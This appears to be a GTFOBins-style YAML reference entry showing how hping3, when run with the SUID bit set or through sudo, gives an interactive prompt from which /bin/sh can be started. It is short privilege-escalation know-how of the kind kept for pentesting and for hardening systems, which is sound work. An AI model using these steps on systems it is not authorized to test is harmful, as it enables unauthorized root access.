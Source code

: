 ```yaml
---
functions:
  suid:
    - description: If you run hping3 without any arguments, it can be used to execute shell commands.
      code: |
        hping3
        hping3> /bin/sh  
  sudo:    
    - description: If you run hping3 without any arguments, it can be used to execute shell commands.
      code: |
        sudo hping3
        hping3> /bin/sh
---
```

